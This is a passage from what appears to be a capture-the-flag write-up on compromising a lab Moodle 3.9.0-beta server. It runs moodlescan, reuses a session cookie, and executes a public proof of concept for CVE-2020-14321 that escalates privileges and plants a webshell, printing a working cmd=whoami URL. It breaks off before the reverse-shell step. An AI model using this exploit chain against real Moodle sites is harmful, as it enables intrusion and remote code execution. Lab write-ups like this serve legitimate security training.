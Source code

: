 There 3 available courses but we need to create a user in order to access it so: __"left click on the Log In-> Create new account-> create a new account with fake creds"__

looking around the webpages brought few results: there are some XSS injection in some input but they're useless and the only valuable things are the courses

We can see some method to pentesting Moodle on [Hacktricks' site](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/moodle), indeed we can usee the [moodlescan.py](https://github.com/inc0d3/moodlescan) to retrieve some informations:
```bash
git clone https://github.com/inc0d3/moodlescan.git
cd moodlescan
pip3 install -r requirements.txt
```
then:
```bash
python3 moodlescan.py -a -r -u http://10.10.23.251:9020/moodle/

Getting moodle version...
Version found via /admin/tool/lp/tests/behat/course_competencies.feature : Moodle v3.9.0-beta

Searching vulnerabilities...
Vulnerabilities found: 0
```
It returns 0 vuln but we have the version __"Moodle v3.9.0-beta"__, we can search some exploits on google.

### CVE-2020-14321 and POC:

The research has paid off: this [POC](https://github.com/HoangKien1020/CVE-2020-14321) automate the exploit of __"CVE-2020-14321"__(RCE)

> I found this [video](https://www.youtube.com/watch?v=BkEInFI4oIU) if you want exploit manually

First step enroll in the 'Teachers Only', this the only course we can have permission to add other members

Second step we navigate to __"Dev-Tools-> Application-> Cookies-> MoodleSession-> copy and save the cookie"__

Third step:
```bash
git clone https://github.com/HoangKien1020/CVE-2020-14321.git
cd CVE-2020-14321
python3 cve202014321.py -url http://10.10.23.251:9020/moodle -cookie=<cookie saved>

[+] Your target: http://10.10.23.251:9020/moodle
[+] Logging in to teacher
[+] Teacher logins successfully!
[+] Privilege Escalation To Manager in the course Done!
[+] Maybe RCE via install plugins!
[+] Checking RCE ...
[+] RCE link in here:
http://10.10.23.251:9020/moodle/blocks/rce/lang/en/block_rce.php?cmd=whoami
```
If everything works the POC will upload a webshell, we can redirect the webshell to pwncat with the following commands:
